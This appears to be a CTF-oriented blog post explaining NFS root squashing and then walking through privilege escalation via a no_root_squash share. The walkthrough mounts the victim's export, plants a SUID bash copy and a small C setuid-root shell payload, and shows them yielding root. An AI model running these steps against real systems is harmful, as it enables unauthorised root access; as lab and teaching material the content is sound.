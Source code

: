 ```yaml
---
title: Linux Privilege Escalation - NFS Root Squashing for CTF Creators
draft: false
author: "pwnlopg"
authorLink: ""
description: ""
license: ""
images: []
date: 2021-12-28 11:33:00 +0800
categories: [Linux Privilege Escalation]
tags: [privilege escalation, nfs, root_squashing, defend]

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: false
rssFullText: false

code:
  copy: true
  maxShownLines: -1
  # ...
math:
  enable: true
  # ...
mapbox:
  accessToken: ""
  # ...
share:
  enable: true
  # ...
comment:
  enable: true
  # ...
library:
  css:
    # someCSS = "some.css"
    # located in "assets/"
    # Or
    # someCSS = "https://cdn.example.com/some.css"
  js:
    # someJS = "some.js"
    # located in "assets/"
    # Or
    # someJS = "https://cdn.example.com/some.js"
seo:
  images: []
  # ...

summary: "Shares can lead to root!"
---
```


#  NFS

Root squash is an NFS feature that maps the remote root user (UID 0) to a local user with minimal privileges, typically the nobody user (UID 65534). This prevents remote root users from having root privileges on the NFS server, enhancing security.

The NFS configuration file is `/etc/exports`. Here are the relevant options:

- no_root_squash: This option disables root squash, allowing the root user on the client to access files on the NFS server as root. This can be risky, as it allows the creation of malicious files on the NFS share with root privileges.

- no_all_squash: This option is similar to no_root_squash but applies to non-root users, preventing their UIDs from being mapped to the nobody user.

# Privilege Escalation via NFS Root Squashing

On the victim machine we'll find the directory in which NFS is hosting files:

```bash
cat /etc/exports
```

On your adversary host, we'll install the NFS client package:

```bash
 sudo apt install nfs-common
```

In our adversary host, we'll create a directory to host the NFS share:

```bash
mkdir /tmp/nfs
```

In our adversary host, we will mount the remote share in the `/tmp/nfs` directory of our adversary host, make sure to run this command with sudo.

```bash
sudo mount -o rw,vers=2 10.10.10.14:/tmp /tmp/nfs
```

The following error means that we don't have permission to mount the share, try it with sudo instead.

> mount.nfs: failed to apply fstab options

The following error means that we need to try another protocol version.

> mount.nfs: Protocol not supported

Alternatively, we can mount it this way:

```bash
sudo mount -t nfs 10.10.10.14:/tmp /tmp/nfs
```

If we receive the error down by the user:

> mount: /tmp/nfs: bad option; for several file systems (e.g. nfs) we might need a /sbin/mount.
	
This means that we don't have an NFS client installed:

```bash
sudo apt install nfs-common
```

Once the share is mounted we can attempt to create a payload.

We can create a bash binary with a SUID bit:

```bash
sudo cp /bin/bash /tmp/nfs/bash && sudo chmod u+s /tmp/nfs/bash
```

Another payload that we can use is a custom C code:

```c
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

int main() {
	setresuid(0, 0, 0);
	setuid(getuid());
	system("/usr/bin/bash");
	return 0;
}
```

Compile this payload and remove any existing if any, then copy the payload to the share:

```bash
gcc payload.c -o payload && sudo rm /tmp/nfs/payload 2>/dev/null; sudo cp payload /tmp/nfs
```

Add the SUID bit to the payload executable:

```bash
sudo chmod u+s /tmp/nfs/payload
```

Now in the victim host, we can execute any of the previous payloads to escalate privileges:

```bash
user@pwn:/tmp$ ls -l
total 1296
-rwsr-xr-x 1 root root 1230280 Dec 1 09:03 bash
-rwsr-xr-x 1 root root   16232 Dec 1 09:05 payload

user@pwn:/tmp$ ./bash -p
bash-5.1# whoami
root
bash-5.1# exit

user@pwn:/tmp$ ./payload 
root@pwn:/tmp# id
uid=0(root) gid=1000 (user) <...SNIP...>
```

Once we're done we can unmount the shared directory in our adversary host:

```bash
sudo umount /tmp/nfs
```